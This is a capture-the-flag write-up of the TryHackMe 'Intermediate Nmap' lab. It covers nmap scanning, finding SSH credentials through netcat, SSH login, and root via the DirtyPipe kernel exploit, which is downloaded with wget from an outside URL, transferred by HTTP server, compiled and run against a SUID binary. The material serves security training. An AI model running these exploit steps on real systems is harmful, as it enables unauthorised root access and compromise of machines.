 # Intermediate Nmap | Sept 19, 2022

## Introduction

Welcome to my another writeup! In this TryHackMe [Intermediate Nmap](https://tryhackme.com/room/intermediatenmap) room, you can learn how to use `nmap`, `netcat` and `ssh`! Without further ado, let's dive in.

## Background

> Can you combine your great nmap skills with other tools to log in to this machine?

> Difficulty: Easy

- Overall difficulty for me: Very easy
    - Initial foothold: Very easy
    - Privilege escalation: Very easy

```
You've learned some great nmap skills! Now can you combine that with other skills with netcat and protocols, to log in to this machine and find the flag? This VM MACHINE_IP is listening on a high port, and if you connect to it it may give you some information you can use to connect to a lower port commonly used for remote access!
```

# Service Enumeration

> Note: Since this room is specifically using `nmap`, so I won't use `rustscan` in here.

**Nmap light scan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nmap -sT -T4 $RHOSTS -oN nmap-lightscan.txt
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
2222/tcp  open  EtherNetIP-1
31337/tcp open  Elite
```

**Options:**
- sT -> Full TCP scan (TCP three-way handshake, SYN, SYN/ACK, ACK)
- T4 -> Timing template 4 (Scan faster)
- oN -> Output the scan in normal format

## Port 31337

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nc -nv $RHOSTS 31337
(UNKNOWN) [10.10.200.24] 31337 (?) open
In case I forget - user:pass
ubuntu:{Redacted}
```

**Found SSH credentials!**

## SSH on Port 2222

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nc -nv $RHOSTS 2222 
(UNKNOWN) [10.10.200.24] 2222 (?) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.4
```

# Initial Foothold

**SSH on port 2222:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# ssh ubuntu@$RHOSTS -p 2222
[...]
ubuntu@10.10.200.24: Permission denied (publickey).
```

**Unable to `ssh` into port 2222.**

**SSH on Port 22:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# ssh ubuntu@$RHOSTS              
[...]
$ whoami;hostname;id
ubuntu
f518fa10296d
```

We're user `ubuntu`!

**Spawn a bash PTY shell:**
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
ubuntu@f518fa10296d:~$ 
```

**flag.txt:**
```
ubuntu@f518fa10296d:~$  cat /home/user/flag.txt
flag{Redacted}
```

# Privilege Escalation (Optional)

**LinPEAS:**
```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 5.13.0-1014-aws (buildd@lgw01-amd64-060) (gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0, GNU ld (GNU Binutils for Ubuntu) 2.34) #15~20.04.1-Ubuntu SMP Thu Feb 10 17:55:03 UTC 2022
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:    20.04
Codename:   focal
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c
[...]
```

According to [LinPEAS](https://github.com/carlospolop/PEASS-ng)'s output, we can see that **it might vulnerable to [DirtyPipe](https://haxx.in/files/dirtypipez.c).** We can try that exploit to gain root privilege!

**To do so, I'll:**

- Download the [DirtyPipe](https://haxx.in/files/dirtypipez.c) exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# wget https://haxx.in/files/dirtypipez.c
```

Since the target machine has `gcc` installed, I'll transfer the exploit to there, compile it and run it:

**Check is `gcc` installed or not:**
```
ubuntu@f518fa10296d:~$ which gcc
/usr/bin/gcc
```

- Transfer the exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

ubuntu@f518fa10296d:~$ wget http://10.18.61.134/dirtypipez.c -O /tmp/dirtypipez.c

ubuntu@f518fa10296d:~$ gcc /tmp/dirtypipez.c -o /tmp/dirtypipez
ubuntu@f518fa10296d:~$ /tmp/dirtypipez 
Usage: /tmp/dirtypipez SUID
```

Also, if you read through the C exploit, you'll see that it needs a SUID binary. Let's `find` one of those binary:

```
ubuntu@f518fa10296d:/$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/sudo
```

I'll take `/usr/bin/chfn` as an example, you can choose any SUID binary.

- Run the exploit:

```
ubuntu@f518fa10296d:~$ /tmp/dirtypipez /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# python3 -c "import pty;pty.spawn('/bin/bash')"
root@f518fa10296d:/# whoami;id      
root
uid=0(root) gid=0(root) groups=0(root),1000(ubuntu)
```

I'm root! :D

# Conclusion

What we've learned:

1. Port Scanning via `nmap`
2. Connect To Open Ports via `netcat`
3. Privilege Escalation via Kernel Exploit (DirtyPipe)